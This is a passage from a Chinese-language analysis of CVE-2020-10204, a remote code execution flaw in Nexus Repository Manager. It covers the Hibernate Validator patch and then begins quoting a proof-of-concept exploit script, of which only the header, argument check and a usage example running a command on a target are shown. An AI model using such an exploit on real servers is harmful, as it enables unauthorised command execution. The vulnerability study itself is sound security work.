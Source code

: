 如果表达式以`$`开头,会直接打印warning,然后返回表达式字符串。

![](./resource/(CVE-2020-10204)NexusRepositoryManager远程执行代码漏洞/media/rId37.png)

但是这里是hibernate包中的,我们需要去找到源头,也就是nexus开发者是怎么去修复的呢?

在一阵搜索中,我在`nexus-public-release-3.22.0-02/components/nexus-validation/src/main/java/org/sonatype/nexus/validation/ValidationModule.java`找到了

![](./resource/(CVE-2020-10204)NexusRepositoryManager远程执行代码漏洞/media/rId38.png)

通过搜索资料了解到Hibernate
Validator提供了ParameterMessageInterpolator来处理消息,并且不解析使用`$`的表达式,也就是说即使绕过了replace的地方,也不会作为表达式进行解析,而是直接返回了。

### poc

    cve-2020-10204_cmd.py
    #!/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author:zhzyker
    # from:https://github.com/zhzyker/exphub

    import sys
    import requests

    if len(sys.argv)!=4:
        print('+---------------------------------------------------------------------------------------------------------+')
        print('+ DES: by zhzyker as https://github.com/zhzyker/exphub                                                    +')
        print('+      CVE-2020-10204 Nexus Repository Manager 3 Remote Code Execution                                    +')
        print('+---------------------------------------------------------------------------------------------------------+')
        print('+ USE: python3 <filename> <url> <session> <cmd>                                                           +')
        print('+ EXP: python3 cve-2020-11444_exp.py http://ip:8081 6c012a5e-88d9-4f96-a05f-3790294dc49a "touch /tmp/233" +')